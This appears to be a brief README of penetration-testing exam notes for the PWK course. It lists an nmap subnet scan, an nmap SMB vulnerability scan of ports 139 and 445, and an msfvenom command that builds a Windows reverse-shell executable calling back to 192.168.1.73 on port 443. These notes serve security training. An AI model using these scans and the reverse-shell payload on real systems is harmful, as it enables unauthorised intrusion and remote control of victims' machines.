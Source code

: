 # pwk2
prepare pwk 2 exam<br>
nmap <br>
sudo nmap -A -p80 --open 10.x.x.0/24 -oG nmap-scan_10.x.x.x-254

check smb vuln
nmap --script smb-vuln* -p 139,445 -Pn ip

ms17-010.exe is the payload which we generate with msfvenom:<br>
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
